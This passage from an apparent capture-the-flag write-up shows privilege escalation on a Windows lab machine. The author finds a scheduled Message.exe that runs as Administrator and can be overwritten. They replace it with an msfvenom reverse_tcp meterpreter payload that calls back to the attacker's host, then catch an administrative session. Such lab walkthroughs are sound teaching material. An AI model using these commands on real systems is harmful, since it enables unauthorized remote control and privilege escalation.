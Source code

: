 I then looked under the `Events` directory where I found a log file that indicated the `Message.exe` binary was executed approximately every 30 seconds as the administrative user. This binary was overwritable and appeared to be a perfect vector to attack for an administrative shell.

```powershell
meterpreter > cd Events 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1926   fil   2019-08-04 22:05:19 +0000  20198415519.INI
100666/rw-rw-rw-  24441  fil   2019-08-04 22:06:01 +0000  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 21:50:12 +0000  2020102145012.INI
100666/rw-rw-rw-  186    fil   2020-11-18 22:12:31 +0000  Administrator.flg
100666/rw-rw-rw-  182    fil   2020-11-18 22:11:57 +0000  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2020-11-18 22:12:31 +0000  Scheduler.flg
100666/rw-rw-rw-  449    fil   2019-08-04 11:36:53 +0000  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2020-11-18 22:11:57 +0000  service.flg

meterpreter > cat 20198415519.INI_LOG.txt
...
11/18/20 14:58:00,Event Started Ok, (Administrator)
11/18/20 14:58:33,Process Ended. PID:1976,ExitCode:4,Message.exe (Administrator)
11/18/20 14:59:01,Event Started Ok, (Administrator)
11/18/20 14:59:34,Process Ended. PID:2820,ExitCode:4,Message.exe (Administrator)
11/18/20 15:00:01,Event Started Ok, (Administrator)
11/18/20 15:00:33,Process Ended. PID:980,ExitCode:4,Message.exe (Administrator)
11/18/20 15:01:01,Event Started Ok, (Administrator)
11/18/20 15:01:33,Process Ended. PID:1340,ExitCode:4,Message.exe (Administrator)
11/18/20 15:02:01,Event Started Ok, (Administrator)
```

I generated a new binary called Message.exe that included a meterpreter payload that connected back to port 4443 and started a second listener on this port

```bash
root@kali:~/ctf/transfer# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.7.59 LPORT=4443 -f exe -o Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload                                                                                                            
No encoder specified, outputting raw payload                                                                                                                          
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe%
```

```bash
meterpreter > cd ../
meterpreter > upload /root/ctf/transfer/Message.exe 
[*] uploading  : /root/ctf/transfer/Message.exe -> Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/ctf/transfer/Message.exe -> Message.exe
[*] uploaded   : /root/ctf/transfer/Message.exe -> Message.exe
meterpreter > 
[*] Sending stage (176195 bytes) to 10.10.167.66
[*] Meterpreter session 2 opened (10.10.7.59:4443 -> 10.10.167.66:49273) at 2020-11-18 23:09:00 +0000

meterpreter > backgoround 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
```